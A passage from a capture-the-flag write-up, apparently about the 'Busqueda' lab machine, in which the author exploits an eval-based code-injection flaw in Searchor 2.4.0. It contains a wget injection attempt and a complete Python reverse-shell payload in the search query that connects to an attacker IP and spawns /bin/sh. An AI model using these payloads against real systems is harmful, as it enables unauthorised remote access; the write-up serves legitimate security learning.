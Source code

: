 The response had the two parts of my string.

```http
HTTP/1.1 200 OK
Date: Sat, 29 Apr 2023 15:59:22 GMT
Server: Werkzeug/2.1.2 Python/3.10.6
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 64

https://www.accuweather.com/en/search-locations?query=testconcat
```

I tried sending simple commands using Python `system` command. 

```python
engine=Wired&query=a' + 'b' +  (__import__('os').system('wget 10.10.14.69')) + 'a
```

This did not work. I spent a little time trying to get code execution. At some point, I looked at the page and saw that it was built with [Searchor](https://github.com/ArjunSharda/Searchor) 2.4.0.

![Powered by Searchor](/assets/images/2023/04/Busqueda/PoweredBy.png "Powered by Searchor")

With that information I quickly found a [Remote Code Execution (RCE) vulnerability](https://github.com/jonnyzar/POC-Searchor-2.4.2) in Searchor. The code from versions 2.4.2 and lower were [using `eval`](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b) on the passed in data.

I used the provided proof on concept to get a reverse shell.

```http
POST /search HTTP/1.1
Host: searcher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://searcher.htb
Connection: keep-alive
Referer: http://searcher.htb/
Upgrade-Insecure-Requests: 1
Content-Length: 245

engine=AlternativeTo&query=', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```
